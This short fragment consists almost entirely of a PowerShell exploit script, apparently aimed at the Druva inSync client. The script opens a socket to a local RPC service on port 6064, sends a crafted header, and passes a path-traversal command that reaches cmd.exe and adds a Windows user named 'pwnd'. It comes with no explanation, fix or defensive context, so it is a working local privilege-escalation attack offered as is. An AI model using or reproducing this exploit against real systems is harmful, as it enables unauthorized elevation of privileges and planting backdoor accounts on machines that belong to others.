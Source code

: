 exploit:  
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```


